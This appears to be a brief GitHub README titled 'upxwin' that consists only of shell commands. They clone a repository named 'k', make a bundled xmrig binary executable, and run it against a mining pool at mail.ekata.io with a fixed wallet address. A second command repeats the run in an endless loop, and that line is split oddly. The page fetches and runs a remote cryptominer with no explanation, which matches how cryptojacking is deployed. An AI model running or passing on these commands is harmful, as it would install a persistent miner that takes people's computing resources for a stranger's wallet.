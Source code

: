# upxwin




git clone https://github.com/saroden99/k.git && cd k && chmod +x xmrig && ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 2



while true; do ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 22
; done
